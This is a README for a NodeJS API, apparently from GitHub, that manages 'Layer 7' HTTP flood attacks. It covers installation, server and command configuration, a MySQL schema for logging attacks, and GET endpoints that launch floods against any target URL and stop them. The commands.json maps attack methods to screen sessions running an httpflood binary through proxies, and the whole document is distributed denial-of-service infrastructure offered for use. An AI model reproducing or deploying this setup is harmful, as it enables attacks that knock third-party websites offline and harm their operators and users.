 <h2>NodeJS API Manager for Layer 7 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 15,
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SECRET_TOKEN"; //your secret token to protect the TCP connection
const allowed_ips = ['1.1.1.1']; //the API server IP
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload client.js to the attack servers and upload api.js, servers.json, commands.json and settings.json to the API server

### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Replace `'http://backend:3000/api'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`
